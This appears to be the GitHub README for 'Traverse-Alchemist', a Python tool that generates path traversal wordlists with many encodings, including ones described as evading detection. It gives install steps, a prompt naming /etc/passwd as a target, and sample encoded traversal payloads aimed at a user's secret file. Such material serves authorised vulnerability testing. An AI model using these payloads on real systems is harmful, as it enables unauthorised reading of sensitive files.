 # Traverse-Alchemist
# 🌌 Path Traversal Worlists Generator 🚀

Welcome to the **Path Traversal Generator**! This program is designed to help you generate various path traversal payloads. A lot of encodings and workarounds.

## 🌈 Features

- **Dynamic Payload Generation**: Create a variety of payloads to test for path traversal vulnerabilities.
- **Customizable File Paths**: Input any file path to generate tailored payloads.
- **Colorful Output**: Enjoy a vibrant terminal experience with colored outputs!
- **Multiple Encoding**: Generate payloads with various encoding techniques to evade detection.

## 🛠️ Installation and use:

```bash
git clone https://github.com/raikoho/Traverse-Alchemist.git
cd Traverse-Alchemist
python traversal.py
```
You will be prompted to enter the target file path. For example:
```
Enter the target file path (e.g., /etc/passwd):
```
After entering your desired path, the program will generate a colorful wordlist of potential payloads and save it to a text file.

## 📄 Little Example Generated Payloads

```
../../\..\/home/carlos/secret
../../\..\\/\h\o\m\e\/\c\a\r\l\o\s\/\s\e\c\r\e\t
..%5C\/%2Fhome%2Fcarlos%2Fsecret
..%5C\//home/carlos/secret
data/home/carlos/secret
hidden%2Fhome%2Fcarlos%2Fsecret
..%5C\/home/carlos/secret
....//....//....//secret
....//....//....//secret%00.txt
```

## 📜 Contributing

Contributions are welcome! If you have ideas for new features, improvements, or fixes, please open an issue or submit a pull request. Let's make it even better!
